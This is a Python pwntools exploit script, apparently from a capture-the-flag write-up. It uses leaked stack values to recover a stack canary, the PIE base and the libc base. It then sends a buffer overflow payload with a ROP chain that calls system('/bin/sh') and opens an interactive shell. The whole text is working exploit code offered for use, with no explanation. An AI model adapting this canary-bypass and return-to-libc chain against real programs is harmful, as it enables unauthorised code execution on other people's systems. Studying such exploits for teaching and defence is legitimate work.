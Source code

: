 ```python

canary = int(leak[13],16)    # Get canary
log.info(f"canary: {hex(canary)}")

pie = int(leak[19], 16) - 0x850    # Get binary base
log.info(f"PIE: {hex(pie)}")

__libc_start_main = int(leak[15], 16) - 0xeb    # Get __libc_start_main
log.info(f"__libc_start_main: {hex(__libc_start_main)}")
libc_base = __libc_start_main - libc.symbols["__libc_start_main"]    # Get libc base
log.info(f"libc base: {hex(libc_base)}")

POP_RDI = pie + 0xad3

system = libc_base + libc.symbols["system"]
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

payload = b"\x00"    # Trick strlen
payload += b"a" * 63    # Pad upto base pointer
payload += b"b" * 8    # Overwrite base pointer
payload += p64(canary)    # Overwrite canary
payload += b"c" * 8    # Pad upto return pointer
payload += p64(POP_RDI)    # Pops arg into rdi
payload += p64(binsh)    # Arg
payload += p64(system)    # Function to call

p.sendline(payload)

p.interactive()
```

